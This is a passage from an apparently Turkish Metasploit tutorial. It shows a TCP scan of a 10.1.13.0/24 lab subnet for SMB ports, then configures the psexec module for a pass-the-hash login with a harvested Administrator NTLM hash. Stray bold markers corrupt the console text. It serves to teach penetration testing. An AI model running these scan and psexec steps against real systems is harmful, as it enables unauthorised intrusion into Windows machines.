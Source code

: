 ```bash
   TIMEOUT      1000             yes       The socket connect timeout **in **milliseconds
   VERBOSE      false            no        Display verbose output

msf auxiliary**(**tcp**)** > set RHOSTS 10.1.13.0/24
RHOST **=>** 10.1.13.0/24
msf auxiliary**(**tcp**)** > set PORTS 139,445
PORTS **=>** 139,445
msf auxiliary**(**tcp**)** > set THREADS 50
THREADS **=>** 50
msf auxiliary**(**tcp**)** > run

> 10.1.13.3:139 - TCP OPEN
> 10.1.13.3:445 - TCP OPEN
> 10.1.13.2:445 - TCP OPEN
> 10.1.13.2:139 - TCP OPEN
> Scanned 256 of 256 hosts **(**100% complete**)**
> Auxiliary module execution completed
msf auxiliary**(**tcp**)** >
```



Yapılan tarama sonucunda `10.1.13.2` ve `10.1.13.3` olarak 2 IP adresi bulduk. Bunlardan `10.1.13.3` IP adresi zaten bizim 1. bilgisayara ait olduğundan `10.1.13.2` IP adresine odaklanacağız.



## Bağlantı Yapalım



445 numaralı portun `samba` ağ paylaşım işlemlerinden kullanıldığını biliyoruz. Öyleyse, `exploit/windows/smb/psexec` modülünü kullanabiliriz. Modül ayarlarını yaparken, ilk bilgisayardan elde ettiğimiz `Administrator:500:81cbcea8a9af93bbaad3b435b51404ee:561cbdae13ed5abd30aa94ddeb3cf52d` hash değerlerini girdiğimize dikkat edin.


```bash
msf auxiliary**(**tcp**)** > use exploit/windows/smb/psexec 
msf exploit**(**psexec**)** > show options

Module options:

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   RHOST                       yes       The target address
   RPORT      445              yes       Set the SMB service port
   SMBDomain  WORKGROUP        no        The Windows domain to use **for **authentication
   SMBPass                     no        The password **for **the specified username
   SMBUser                     no        The username to authenticate as


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit**(**psexec**)** > set RHOST 10.1.13.2
RHOST **=>** 10.1.13.2

msf exploit**(**psexec**)** > set SMBUser Administrator
SMBUser **=>** Administrator

msf exploit**(**psexec**)** > set SMBPass 81cbcea8a9af93bbaad3b435b51404ee:561cbdae13ed5abd30aa94ddeb3cf52d
```